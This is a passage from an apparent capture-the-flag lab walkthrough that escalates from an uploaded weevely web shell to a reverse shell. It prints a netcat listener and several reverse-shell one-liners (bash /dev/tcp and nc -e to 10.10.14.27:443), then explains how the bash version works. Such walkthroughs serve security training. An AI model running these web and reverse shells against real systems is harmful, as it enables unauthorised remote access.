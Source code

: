 -   **Running Commands**:
    -   We need to run an initial command to get access to the shell:
        -   {{< figure src="/ox-hugo/2024-10-02-064233_.png" >}}
        -   Just to make it clear, we are in the `VM` that is running ubuntu. So we need to find a way to escape or gather information we can use elsewhere.
-   **I try and run some commands but it gets a** `404` **and times out**:
    -   {{< figure src="/ox-hugo/2024-10-02-064424_.png" >}}
    -   I did notice that when trying to access my `phpinfo` enumeration file that it also times out, which leads me to believe there is some sort of timeout in place for uploaded files.


### Getting around the timeout Using Weevely's built in reverse shell: {#getting-around-the-timeout-using-weevely-s-build-in-reverse-shell}

-   I believe the easiest way to get around the time out will be to on connection immediately trigger a manual reverse shell back to ourselves from the weevley shell and background the task to ensure the connection remains.
    1.  **Prepare my listener**:
        -   `nc -nvlp 443`
        -   +Note+: I use 443 so the traffic at least looks legitimate.

    2.  **Prepare my reverse shell statement to paste into the weevley shell**:
        -   `bash -c 'bash -i >& /dev/tcp/10.10.14.27/443 0>&1'`
        -   +Note+:
            -   I do this as it's time-sensitive &amp; I want to easily copy and paste as opposed to typing something out and getting a type-o.

    3.  **Connect via weevley**:
        -   `sudo weevely http://10.129.229.189:8080/uploads/rec.phar bl00dst111er`

    4.  **Trigger the reverse shell**:
        -   {{< figure src="/ox-hugo/2024-10-02-072305_.png" >}}
        -   **Caught**:
            -   {{< figure src="/ox-hugo/2024-10-02-073102_.png" >}}



-   +Note+:
    -   Full transparency here, I tried multiple ways to get this to work, including the below. However the only way I could get a connection was using the above sub-shell method. I am showing you this as I want you to know that sometimes you have to just keep trying to find a viable path to make things work.
        -   `/usr/bin/bash -i >& /dev/tcp/10.10.14.27/443 0>&1`
        -   `/bin/sh -i >& /dev/tcp/10.10.14.27/443 0>&1`
        -   `nc 10.10.14.27 443 -e /usr/bin/sh &`
        -   `nc 10.10.14.27 443 -e /usr/bin/bash &`
        -   `nc 10.10.14.27 443 -e /bin/bash &`
            -   I also tried weevleys inbuilt reverse-tcp shell and that would not work


#### Detailed Breakdown Of The Reverse Shell: {#detailed-breakdown-of-the-reverse-shell}

-   **Bash Sub-Shell**:
    -   `bash -c`
        -   Runs the command `bash -i >& /dev/tcp/10.10.14.27/443 0>&1` within a new instance of the bash shell.
        -   The `-c` option allows us to pass a string as a command to be executed.
        -   `bash -i`
            -   Launches an interactive instance of the Bash shell.
